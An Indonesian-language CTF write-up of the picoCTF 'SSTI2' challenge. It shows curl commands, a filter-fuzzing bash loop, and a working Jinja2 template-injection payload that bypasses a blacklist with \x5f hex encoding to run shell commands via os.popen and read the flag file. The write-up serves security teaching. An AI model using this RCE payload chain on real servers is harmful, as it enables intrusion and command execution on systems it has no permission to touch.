







# Write-Up: SSTI2 (Medium)

## Analisis Masalah

Tantangan "SSTI2" menyajikan sebuah aplikasi web sederhana dengan fitur pengumuman (*announcement*). Deskripsi soal menyebutkan penggunaan *"templating"* dan *"input sanitization"*. Kombinasi ini merupakan indikasi kuat adanya kerentanan **Server-Side Template Injection (SSTI)**, yang sengaja dilindungi oleh semacam *Web Application Firewall* (WAF) atau *filter blacklist* untuk menghalangi eksploitasi.

## Langkah Penyelesaian

### 1. Probing Awal & Menangani Redirect

Langkah pertama adalah memastikan kerentanan dengan mengirimkan *payload* matematika dasar Jinja2/Flask. Saya menggunakan `curl` dari terminal:

```bash
curl -s -X POST http://shape-facility.picoctf.net:61433/ -d "content={{7*7}} {{7*'7'}} {{config}}"

```
****
Namun, *server* merespons dengan pengalihan HTML ke `/announce` (*Post/Redirect/Get pattern*). Untuk mengikutinya, saya menambahkan *flag* `-L` (Location) serta menyimpan *cookie* sesi (`-c` dan `-b`). Saya juga mencoba memfilter *output* dengan `grep -i "announce"`, namun hasilnya kosong:

```bash
curl -s -L -c cookies.txt -b cookies.txt -X POST http://shape-facility.picoctf.net:61433/ -d "content={{7*7}} {{7*'7'}} {{config}}" | grep -i "announce"

```
****
Kegagalan ini menandakan dua hal: *output* HTML tidak mengandung kata "announce", atau salah satu *payload* (seperti `{{config}}`) memicu *error* 500 karena diblokir oleh *filter*.

### 2. Membuktikan SSTI

Untuk memastikan, saya menyederhanakan *payload* dan menghilangkan `grep` untuk melihat respons utuh dari *server*:

```bash
curl -s -L -c cookies.txt -b cookies.txt -X POST http://shape-facility.picoctf.net:61433/ -d "content={{7*7}}"

```

*Output*:
****
Munculnya angka `49` mengonfirmasi 100% bahwa mesin *template* (Jinja2) mengevaluasi *input* kita.

### 3. Terkena Blokir WAF (Sanitasi Input)

Selanjutnya, saya mencoba memanggil objek bawaan Python yang umum digunakan untuk eksploitasi SSTI, yaitu `__class__`:

```bash
curl -s -L -c cookies.txt -b cookies.txt -X POST http://shape-facility.picoctf.net:61433/ -d "content={{''.__class__}}"

```

*Output*:
****
Eksploitasi gagal. *Server* mendeteksi anomali dan menampilkan pesan *error* kustom. Ini membuktikan bahwa mekanisme sanitasi *input* sedang aktif beroperasi.

### 4. Analisis Filter (Fuzzing)

Untuk mengetahui karakter apa saja yang diblokir, saya membuat *script bash* sederhana untuk melakukan *fuzzing* satu per satu terhadap karakter `_`, `.`, kata `class`, dan objek `request`:

```bash
for payload in "{{ '_' }}" "{{ '.' }}" "{{ 'class' }}" "{{ request }}"; do
    echo -n "Testing $payload : "
    curl -s -L -X POST http://shape-facility.picoctf.net:61433/ -d "content=$payload" | grep -q "Stop trying to break me" && echo "DIBLOKIR ❌" || echo "LOLOS ✅"
done

```

*Output*:
****
Hasil ini sangat krusial. Karakter-karakter tersebut lolos jika dikirim secara individual. Artinya, *developer* menggunakan teknik *blacklist* bodoh yang hanya memblokir *string* utuh (seperti `__class__`), bukan memblokir karakternya.

### 5. RCE Bypass dengan Hex Encoding

Berbekal informasi dari fase *fuzzing*, saya meracik *payload Remote Code Execution* (RCE). Saya menggunakan objek `request` (yang terbukti lolos) dan menggunakan *filter* bawaan Jinja2 yaitu `|attr()`. Untuk menghindari deteksi *blacklist* pada garis bawah ganda (`__`), saya menyamarkan karakter `_` menggunakan representasi *hexadecimal*-nya yaitu `\x5f`.

Pertama, saya menjalankan perintah `ls -la` untuk melihat isi direktori:

```bash
curl -s -L -X POST http://shape-facility.picoctf.net:61433/ --data-urlencode "content={{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls -la')|attr('read')()}}"

```

*Output* berhasil menampilkan *file* `flag` di dalam direktori *server*.
****

### 6. Mengekstrak Flag

Terakhir, saya mengganti perintah `ls -la` menjadi `cat flag` untuk membaca isi *file* rahasia tersebut, dan menggunakan `grep` untuk mengekstrak teks *flag*-nya secara bersih:

```bash
curl -s -L -X POST http://shape-facility.picoctf.net:61433/ --data-urlencode "content={{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}" | grep -o "picoCTF{.*}"

```

*Output*:
****

## Tools yang Digunakan

1. **Linux Terminal & Bash Scripting** - Untuk eksekusi interaktif dan otomasi *fuzzing filter*.
2. **curl** - Mengirim permintaan HTTP POST, menangani *redirects* (`-L`), manajemen *cookie* sesi (`-c`, `-b`), dan melakukan *URL Encoding* (`--data-urlencode`).
3. **Jinja2 Hex Encoding Bypass** - Teknik injeksi *payload* SSTI dengan memanfaatkan penyandian heksadesimal (`\x5f`) untuk mengobfuskasi *string* dari WAF berbasis *blacklist*.

## Kesimpulan

Tantangan SSTI2 membuktikan bahwa metode sanitasi *input* berbasis *blacklist* sangat lemah dan tidak efektif mengamankan *template engine*. Selama *framework* mendukung manipulasi *string* dinamis atau evaluasi sandi (seperti format *hex*), penyerang dapat menyusun ulang *payload* mematikan yang tidak dikenali oleh *firewall*, hingga pada akhirnya berhasil mencapai *Remote Code Execution*.

Flag yang berhasil didapatkan adalah: **`picoCTF{sst1_f1lt3r_byp4ss_3cfcf706}`**.

---